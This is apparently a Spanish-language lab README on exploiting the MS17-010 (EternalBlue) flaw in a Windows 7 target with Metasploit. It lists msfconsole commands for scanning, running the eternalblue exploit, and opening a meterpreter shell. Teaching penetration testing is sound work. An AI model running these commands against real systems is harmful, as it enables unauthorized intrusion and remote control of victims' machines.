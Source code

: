 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010 **
Desde Kali LinuxInicie una sesión de terminal y escriba los siguientes comandos
msfconsole
Search ms17_10
use auxiliary/scanner/smb/smb_ms17_010 
set RHOSTS “Dirección IP del host windows 7 64bits”,
run 
 
  
Exploiting
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_s010_eternalblue) > show options 
msf exploit(ms17_010_eternalblue) > set RHOST < Rhost-id > 
msf exploit(ms17_010_eternalblue) > show options 
msf exploit(ms17_010_eternalblue) > exploit 
 
 
 
Post Exploitation 
Sysinfo
Getuid
Shell


Enlace para mayor información
----- https://www.metasploit.com/

Click [here](http://foo.com) to go somewhere.
